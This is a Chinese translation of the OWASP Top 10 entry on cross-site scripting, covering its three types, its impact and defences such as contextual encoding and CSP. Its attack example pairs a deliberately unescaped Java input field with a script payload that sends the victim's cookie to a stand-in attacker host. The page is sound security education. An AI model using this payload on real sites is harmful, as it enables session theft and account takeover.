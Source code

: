 ## A7-跨站脚本-Cross-Site-Scripting

> 当在新的页面打开应用程序，如果包含了没有经过适当的验证或编码的不可信数据，或者使用可以创建 HTML 或 JavaScript 的浏览器 API 更新现有的网页时，就可能会发生跨站脚本攻击。 XSS 让攻击者能够在受害者的浏览器中执行脚本，并劫持用户会话、破坏网站或者将用户重定向至恶意站点。

#### 威胁来源、弱点以及影响

自动化工具能够发现和利用这三种 XSS 类型，并且存在方便攻击者利用漏洞的框架。

XSS 是 Top 10 中排名第二的最流行的漏洞，而且可以在三分之二的应用中发现。自动化工具能够自动找出一些 XSS 问题，尤其是成熟的技术中，例如 PHP / J2EE / JSP 和 ASP.NET。

XSS 对于反射和 DOM 的影响是中等的，而对于存储的 XSS，其影响更加严重，例如在受攻击者的浏览器上执行远程代码，可以窃取凭证和会话或者传递恶意软件等。

#### 你的应用时脆弱的吗？

有三种常见的 XSS 类型，一般目标都是用户的浏览器：

* **反射式 XSS**：应用或者 API 包含未经验证和未编码的用户输入来输出至 HTML。一次成功的攻击可以允许攻击者在受害者的浏览器中执行任意的 HTML 和 JavaScript。典型场景是用户点击了一些恶意的链接，指向了一个攻击者控制着的页面，例如恶意网站、广告或者类似的页面。
* **存储式 XSS**：应用程序或者 API 存储了没有经过加密处理的用户输入，之后被另一个用户或者管理员看到了。存储式 XSS 一般导致更危险和严重的风险。
* **DOM XSS**：JavaScript 框架，单页应用，以及 APIs 动态在某个有 DOM XSS 漏洞的页面包含了攻击者控制着的数据。理想状态下，应用程序不应该发送受攻击者控制的数据至不安全的 JavaScript APIs。

典型的 XSS 攻击一般是窃取会话凭证、接管账户、绕过 MFA、替换或破坏 DOM 节点（例如伪造木马登录界面） ，攻击者对用户的浏览器的攻击，比如恶意软件下载、关键日志记录和其他客户端攻击。

#### 攻击案例场景

**例子一**：应用程序使用不可信的数据，在没有验证和编码的情况下，插入了下面这种 HTML 结构中：

```javascript
(String) page += "<input name='creditcard' type='TEXT'
value='" + request.getParameter("CC") + "'>";
```

攻击者可以在浏览器中将 `CC` 参数的值修改为下面这样：

```javascript
'><script>document.location=
'http://www.attacker.com/cgi-bin/cookie.cgi?
foo='+document.cookie</script>'.
```

这个攻击导致了受害者的会话 ID 发送给了攻击者的网站，允许攻击者伪装成用户现在的会话。

**注意**：攻击者同样能使用跨站脚本攻破应用程序可能使用的任何跨站请求伪造 CSRF 防御机制。

#### 如何防御

阻止 XSS 攻击需要将不可信数据与动态的浏览器内容区分开。这可以通过以下几点来实现：

* 使用框架来从设计上自动防御 XSS，例如最新版的 Ruby，React JS。了解每个框架对于防御 XSS 的局限性以及适当的对未覆盖到的问题添加使用实例。
* 远离基于不可信 HTTP 请求的数据输出在 HTML 上下文中（主体、属性、JavaScript、CSS 或 URL），这可以有效预防**反射式**和**存储式** XSS 漏洞。 [OWASP Cheat Sheet 'XSS Prevention'](https://www.owasp.org/index.php/XSS_%28Cross_Site_Scripting%29_Prevention_Cheat_Sheet) 中有请求数据防御技术的详细内容。
* 当在客户端修改浏览器文档时，应用上下文相关的编码可以抵御 DOM XSS 漏洞。如果不能避免的话，类似的上下文相关的编码技术可以被应用在浏览器 APIs 中，详见：[OWASP Cheat Sheet 'DOM based XSS Prevention'](https://www.owasp.org/index.php/DOM_based_XSS_Prevention_Cheat_Sheet)。
* 启用 [Content Security Policy (CSP)](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP) 可以作为一种深度防御策略来抵御 XSS 攻击。如果不存在可以通过本地文件放置恶意代码的其他漏洞（例如：路径便利覆盖和允许在网络中传输易受攻击的库），则该策略是有效的。
